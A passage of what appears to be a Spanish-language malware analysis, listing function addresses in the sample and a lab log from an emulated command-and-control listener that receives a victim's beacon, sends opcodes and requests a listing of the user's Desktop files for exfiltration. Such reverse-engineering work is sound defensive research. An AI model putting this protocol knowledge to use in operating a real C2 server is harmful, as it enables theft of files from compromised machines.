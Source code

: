 - 00401FCD – FUN_0040296D (ACK). Si falla → 00401F7B/00401F7D reintenta.

## 4. Fin

- 00401A3F (fin del primer XOR) y lee param_2 ya deofuscado.


## 5. Comunicación en el Server C2
```
sudo python3 listener.py 
[*] Escuchando en 0.0.0.0:443

[+] 2025-08-19 11:47:12 Conexión de 10.0.0.4:49679
    [*] Recibido (7 bytes):
        ASCII: b'fxftest'
        HEX  : 66 78 66 74 65 73 74
    [*] Enviado handshake (8 bytes)
    [*] Recibido (512 bytes):
        ASCII: b'10.0.0.4........................H. . . . . . . . .h.(.(.(.(. . . . . . . . . . . . . . . . . . .H...............................................................................................$...Rt.w;..w3w....p.@...............................;..;........DESKTOP-CTQQHGT....."..!...... ... ....................... ... . ...^.............q.........g...H.......z.p...............0.......................p.............".....p...p.......................................................p.H.............p...p...,.....'
        HEX  : 31 30 2e 30 2e 30 2e 34 00 01 00 00 d8 f9 19 00 e4 04 00 00 00 00 00 00 00 00 00 00 e4 04 00 00 48 02 20 02 20 02 20 02 20 02 20 02 20 02 20 02 20 02 68 02 28 02 28 02 28 02 28 02 20 02 20 02 20 02 20 02 20 02 20 02 20 02 20 02 20 02 20 02 20 02 20 02 20 02 20 02 20 02 20 02 20 02 20 02 48 02 10 02 10 02 10 02 10 02 10 02 10 02 10 02 10 02 10 02 10 02 10 02 10 02 10 02 10 02 10 02 84 02 84 02 84 02 84 02 84 02 84 02 84 02 84 02 84 02 84 02 10 02 10 02 10 02 10 02 10 02 10 02 10 02 81 03 81 03 81 03 81 03 81 03 81 03 01 03 01 03 01 03 01 03 01 03 01 03 01 03 01 03 01 03 24 fc 19 00 52 74 16 77 3b 8f 16 77 33 77 bd d1 00 00 70 00 40 04 00 00 c0 fc 19 00 10 02 10 02 10 02 82 03 82 03 82 03 82 03 82 03 82 03 02 03 02 03 02 03 3b 00 00 3b 02 03 02 03 02 03 02 03 44 45 53 4b 54 4f 50 2d 43 54 51 51 48 47 54 00 02 03 02 03 22 03 00 21 10 02 10 02 10 02 20 02 00 02 20 02 10 02 02 03 10 02 10 02 10 02 10 02 00 02 10 02 01 03 10 02 01 03 20 02 01 03 20 02 20 02 10 02 5e 02 00 00 99 02 00 00 10 02 10 02 d8 b6 71 00 02 03 10 02 87 00 00 00 67 fd ff ff 48 02 10 02 10 02 10 02 7a 9c 70 00 10 02 10 02 10 02 10 02 12 03 10 02 10 02 30 02 10 02 10 02 10 02 10 02 14 02 14 02 99 02 00 00 10 02 10 02 00 00 70 00 12 03 10 02 10 02 10 02 ff 07 00 00 22 03 00 00 c0 00 70 00 f0 ab 70 00 01 03 01 03 01 03 01 03 00 00 00 00 00 00 00 00 01 03 01 03 89 00 00 00 01 03 01 03 01 03 01 03 99 02 00 00 01 03 01 03 a2 02 00 00 00 00 00 00 01 03 02 03 a0 e7 70 00 48 04 00 00 02 03 02 03 02 03 02 03 c0 00 70 00 00 00 70 00 02 00 2c 00 01 00 00 00
    [*] Enviando opcode 1...
    [*] Enviado comando (260 bytes), opcode=1
    [*] Recibido (256 bytes):
        ASCII: b'v.od.og.ofvUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUU'
        HEX  : 76 16 6f 64 11 6f 67 0f 6f 66 76 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55
    [*] Bloque de 256B (exfil post-op1) detectado. Enviando opcode 2 con patrón…
    [*] Enviado opcode=2 (260 bytes) con patrón: b'C:\\Users\\usuario\\Desktop\\*'
    [*] idle timeout; keeping connection open...
    [*] idle timeout; keeping connection open...
    [*] Recibido (2 bytes):
        ASCII: b'o.'
        HEX  : 6f 00
    [*] STATUS inicial opcode2 (2B): b'o\x00' HEX=6f 00
    [*] Hay coincidencias. Entrando en modo LISTING (lectura de frames 0x204)…
```